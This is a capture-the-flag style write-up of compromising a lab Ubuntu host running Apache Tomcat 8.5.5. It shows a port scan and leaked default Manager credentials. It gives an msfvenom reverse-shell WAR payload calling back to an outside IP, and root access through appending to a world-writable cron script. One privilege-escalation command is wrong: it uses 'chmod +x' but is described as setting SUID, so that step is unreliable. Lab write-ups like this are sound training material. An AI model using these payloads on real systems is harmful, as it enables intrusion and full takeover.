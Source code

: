 # Thompson

**Hostname:** `ubuntu`

**OS:** `Ubuntu Linux`

**Users:**
```
jack
```

**Credentials:**

*Tomcat Manager:*
```
tomcat:s3cret
```

## Port Scan:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- OpenSSH 7.2p2
- Apache Jserv (Protocol v1.3)
- Apache Tomcat 8.5.5

## Content Discovery:

### Port 8080:
- Apache Tomcat Manager App:
	- Default credentials exposed via error message

### Machine enumeration:

#### Cron jobs
```
# m h dom mon dow user  command
*  *    * * *   root    cd /home/jack && bash id.sh
```

## Foothold / Privilege Escalation:

### Initial Foothold

I have gained initial access through misconfigured Apache Tomcat instance running on port 8080. It was misconfigured in a way that an error message disclosed the admins default credentials.

![tomcat verbose error message](../pictures/thompson/cred_leak.png)


I used these credentials to login into the Manager App where I can upload my own WAR files.

![tomcat login](../pictures/thompson/manager_login.png)
![tomcat dashboard](../pictures/thompson/manager_dashboard.png)

To get access I used msfvenom to generate a .war file containing my reverse shell payload.
```
msfvenom -p java/shell_reverse_tcp lhost="10.23.113.200" lport="8081" -f war -o shell.war
```
- This command will generate a malicious reverse shell and output it to a WAR file which I uploaded to the server using the Manager App

After uploading I setup a listener on the specified port in my case 8081, and executed the payload by just visiting the site in my case /shell.

![upload shell](../pictures/thompson/upload_shell.png)

![payload execute](../pictures/thompson/execute_payload.png)

By visiting **/shell** the payload executes and I get a connection to my listener.

![shell connection](../pictures/thompson/initial_access.png)

---
### Privilege Escalation:

To elevate my privileges to root I exploited a shell script called id.sh that was set to run as a cron job which I found inside a real user's home directory.

![jack's directory](../pictures/thompson/jack_home.png)

![crontab](../pictures/thompson/crontab.png)

It was exploitable due to the script being available to everyone, and since it would run as the root user, I could just append a reverse shell command or set the SUID bit on the /bin/bash binary.

I added a SUID bit on the /bin/bash binary with the command:

```
echo "chmod +x /bin/bash" >> id.sh
```
After the cron job executes I get a root shell by either of the methods.

![privilege escalation](../pictures/thompson/privesc.png)

![root shell](../pictures/thompson/root.png)

## Journal:
- Check cron jobs and what permissions do I have on the files they are running